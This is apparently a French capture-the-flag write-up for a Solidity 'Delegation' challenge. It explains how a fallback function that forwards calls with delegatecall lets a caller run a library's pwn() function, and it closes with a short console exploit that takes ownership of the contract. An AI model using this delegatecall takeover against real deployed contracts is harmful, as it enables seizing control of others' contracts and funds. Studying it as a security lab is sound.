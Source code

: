 `Delegate` possède une variable `owner`, qui est initialisée dans le constructeur. Il possède également la fonction `pwn()` qui permet de changer la valeur de `owner`.

```javascript
contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  function() external {
    (bool result, bytes memory data) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

`Delegation` possède une variable `owner` ainsi qu'une instance de `Delegate`. Ces derniers sont initialisés dans le constructeur. Il définit également une fallback function qui réalise un `delegatecall()` vers l'instance de `Delegate`.

> There exists a special variant of a message call, named **delegatecall** which is identical to a message call apart from the fact that the code at the target address is executed in the context of the calling contract and `msg.sender` and `msg.value` do not change their values.
>
> This means that a contract can dynamically load code from a different address at runtime. Storage, current address and balance still refer to the calling contract, only the code is taken from the called address.
>
> This makes it possible to implement the “library” feature in Solidity: Reusable library code that can be applied to a contract’s storage, e.g. in order to  implement a complex data structure.

Un `delegatecall` permet d'exécuter du code externe dans le contexte courant du smart contract appelant. Pour devenir `owner`, nous devons appeler le fonction `pwn()` qui va modifier la valeur de `owner`.

### Attaque

La fonction a appeler doit être dans `msg.data`.

```javascript
// we are not owner
> await contract.owner() == player
false

// call pwn()
> await contract.sendTransaction({data:web3.sha3("pwn()")})

// we are owner
> await contract.owner() == player
true
```

